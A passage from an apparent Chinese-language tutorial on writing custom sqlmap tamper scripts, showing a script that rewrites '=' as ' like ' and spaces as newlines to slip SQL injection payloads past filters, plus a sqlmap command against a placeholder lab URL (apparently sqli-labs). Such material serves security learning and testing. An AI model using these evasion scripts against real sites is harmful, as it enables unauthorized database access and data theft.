 ```
                if payload[i].isspace():
                    firstspace = True
                    retVal += "+"
                    continue

            elif payload[i] == '\'':
                quote = not quote

            elif payload[i] == '"':
                doublequote = not doublequote

            elif payload[i] == " " and not doublequote and not quote:
                retVal += "+"
                continue

            retVal += payload[i]

    return retVal
```

可以看到源码还是挺简单的，我们只用改tamper函数就好了，比如我们想写一个把=替换成”like”，空格替换成换行符的脚本，就可以这样写：

```
#!/usr/bin/env python

"""
Copyright (c) 2006-2022 sqlmap developers (https://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

from lib.core.compat import xrange
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):


    retVal = payload
    retVal = retVal.replace("=", " like ")
    retVal = retVal.replace(" ", chr(0x0a))


    return retVal
```

比如把这个脚本命名为test.py，然后我们就可以这么使用了：

```
sqlmap -u "http://xxx/Less-1/?id=1" --tamper="test.py"
```
